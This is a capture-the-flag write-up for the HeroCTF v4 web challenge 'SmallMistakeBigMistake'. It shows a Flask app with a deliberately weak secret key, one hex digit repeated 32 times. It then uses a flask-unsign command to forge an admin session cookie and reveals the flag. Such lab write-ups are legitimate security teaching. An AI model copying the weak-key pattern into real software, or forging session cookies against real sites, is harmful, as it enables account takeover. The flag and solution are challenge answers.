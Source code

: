 # HeroCTF v4

## Web

### SmallMistakeBigMistake

**Difficulty:** Easy

**Statement:** The website developer made a small mistake in the code of his website.

Can you identify and exploit it to extract the flag?

***

The challenge makes the source code available to us :

```py
#!/usr/bin/env python
from flask import Flask, session, render_template

from string import hexdigits
from random import choice
from os import getenv


app = Flask(__name__)
app.secret_key = choice(hexdigits) * 32


@app.route("/", methods=["GET"])
def index():
    flag = "You are not admin !"
    if session and session["username"] == "admin":
        flag = getenv("FLAG")

    return render_template("index.html", flag=flag)


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=int(getenv("PORT")))
```

Thanks to the source code, the following information can be found :

- A misconfiguration was made on the key generation on `app.secret_key = choice(hexdigits) * 32`

If we rerun the python code, we can see that the generated key is the concatenation of the same hexdigit 32 times :

```py
>>> from string import hexdigits
>>> from random import choice
>>> choice(hexdigits) * 32
'00000000000000000000000000000000'
```

This means that the key can only be composed of 16 different combinations

- The session cookie must be composed of the value `username:admin`

```py
    if session and session["username"] == "admin":
        flag = getenv("FLAG")
```

With this information, we just have to generate the cookie and sign it with the 16 different combinations with `flask-unsign`.

After a few tries, we get the right key :

```
# flask-unsign --sign --cookie "{'username': 'admin'}" --secret '22222222222222222222222222222222' --no-literal-eval
eyJ1c2VybmFtZSI6ImFkbWluIn0.YpHUjg.1ZdkOHPQaY8nzDyBfMXlmQlSFgI
```

We just have to go to the web interface, add the cookie and get the flag :

![image](https://user-images.githubusercontent.com/49941629/171150158-ff092d86-70b9-473e-95d9-59bede4be83a.png)

Flag : Hero{Sm4ll_Mist4ke_c4n_be_d4ngerous_10853085}
